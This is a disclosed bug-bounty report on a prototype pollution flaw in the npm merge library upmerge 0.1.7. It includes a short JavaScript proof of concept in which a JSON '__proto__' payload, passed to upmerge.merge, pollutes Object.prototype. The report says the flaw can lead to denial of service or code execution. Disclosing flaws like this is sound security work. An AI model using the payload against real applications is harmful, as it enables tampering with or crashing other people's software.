 # Prototype pollution attack (upmerge)

## Report Details
- **Report ID**: 439120
- **URL**: https://hackerone.com/reports/439120
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-11-11T14:45:55.990Z
- **Disclosed**: 2019-02-04T07:53:24.033Z

## Reporter
- **Username**: dienpv
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi team,
I would like to report a prototype pollution vulnerability in upmerge
that allows an attacker to inject properties on Object.prototype.

# Module

**module name:** upmerge
**version:** 0.1.7
**npm page:** `https://www.npmjs.com/package/upmerge`

## Module Description

> JavaScript Object Merge and Clone for Client or Server side

# Vulnerability

## Vulnerability Description

> this vulnerability type is similar to my report #438274
upmerge is vulnerable to prototype pollution when it merges objects.

## Steps To Reproduce:

> In the following code snippet, "payload" would come from user-input (JSON data).
```javascript
var upmerge = require('upmerge');
var payload = '{"__proto__":{"polluted":"upmerge_done !"}}';
var test = {};
console.log("Before: ", test.polluted);
upmerge.merge({},JSON.parse(payload));
console.log("After: ", test.polluted);

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

Thanks!

## Impact

It causes Denial of Service or RCE in some cases.

## Attachments
No attachments
